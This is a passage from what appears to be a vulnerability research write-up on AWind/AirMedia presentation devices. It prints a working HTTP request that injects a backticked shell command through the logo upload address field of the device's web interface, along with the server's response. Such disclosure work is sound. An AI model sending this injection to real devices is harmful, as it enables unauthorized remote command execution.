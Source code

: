 And here is the exploit at work:

<script src="https://asciinema.org/a/Kj2VBJg3kGCmy3UPxm2JkzOo0.js" id="asciicast-Kj2VBJg3kGCmy3UPxm2JkzOo0" async></script>

Let's update our sources and sinks diagram with what we learned. One path to **getRemoteURL.sh** via SNMP got removed, the path to **service_onoff.sh** got deactivated and the one to **ftpfw.sh** got confirmed.

{:.foo}
![awind_sources_sinks2]({{site.url}}/assets/awind_sources_sinks2.png)

We'll now move onto exploitation by abusing the web GUI running on ports TCP/80 and TCP/443.

#### 2.2 Remote Command Execution via HTTP

Browsing through the web UI, we end up on the "OSD setup" page that let's you select a custom logo, which is exactly the purpose of one of our sinks: **getRemoteURL.sh**.

{:.foo}
![airmedia_logo_ui]({{site.url}}/assets/airmedia_logo_ui.png)

The injection is pretty straightforward as we simply put our payload in backticks within the address field:

<div class="language-bash highlighter-rouge">
<div class="highlight">
<pre class="highlight">
<code><span class="o">POST</span> <span class="s2">/cgi-bin/return.cgi</span> HTTP/1.1
<span class="nv">Host:</span> 192.168.100.2
<span class="nv">Connection:</span> close
<span class="nv">Content-Length:</span> 153
<span class="nv">Cache-Control:</span> no-cache
<span class="nv">Origin:</span> https://192.168.100.2
<span class="nv">Content-Type:</span> application/x-www-form-urlencoded
<span class="nv">Accept:</span> */*
<span class="nv">Accept-Language:</span> en-US,en;q=0.8

command=<span class="nv">&lt;Send&gt;&lt;seid&gt;</span><span class="nb">PZs0x6iFiCK4m4Z7</span><span class="nv">&lt;/seid&gt;&lt;upload&gt;&lt;protocol&gt;</span><span class="nb">http</span><span class="nv">&lt;/protocol&gt;&lt;address&gt;</span><span class="nb">`ping -c 3 192.168.100.1`</span><span class="nv">&lt;/address&gt;&lt;logo&gt;</span><span class="nb">test</span><span class="nv">&lt;/logo&gt;&lt;/upload&gt;&lt;/Send&gt;</span>
</code></pre></div></div>

<div class="language-bash highlighter-rouge">
<div class="highlight">
<pre class="highlight">
<code><span class="o">HTTP/1.1 200 OK</span>
<span class="nv">X-XSS-Protection:</span> 1; mode=block
<span class="nv">Cache-Control:</span> public, must-revalidate, proxy-revalidate, max-age=604800
<span class="nv">Strict-Transport-Security:</span> max-age=31536000; includeSubDomains; preload
<span class="nv">X-Frame-Options:</span> sameorigin
<span class="nv">Expires:</span> Tue, 14 Jun 2005 18:24:23 GMT
<span class="nv">Content-type:</span> text/xml
<span class="nv">Connection:</span> close
<span class="nv">Date:</span> Tue, 07 Jun 2005 18:24:25 GMT
<span class="nv">Server:</span> lighttpd/1.4.37
<span class="nv">Content-Length:</span> 60
